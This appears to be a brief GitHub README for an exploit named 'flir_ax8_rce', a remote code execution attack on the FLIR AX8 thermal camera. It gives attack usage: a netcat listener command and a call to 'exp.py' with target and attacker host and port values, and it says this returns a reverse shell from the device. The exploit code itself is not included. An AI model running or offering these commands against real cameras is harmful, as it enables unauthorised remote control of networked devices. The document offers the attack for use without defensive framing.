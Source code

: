# flir_ax8_rce

attack execute:
  ```
  nc -lp LPORT
  python3 exp.py --RHOST RHOST --RPORT RPORT --LHOST LHOST --LPORT LPORT
  ```

Then it will get the reverse shell of the device。


<img width="193" alt="1" src="https://user-images.githubusercontent.com/63924776/188060839-f4d34415-8d79-443c-bd70-c9a733eaacf4.PNG">
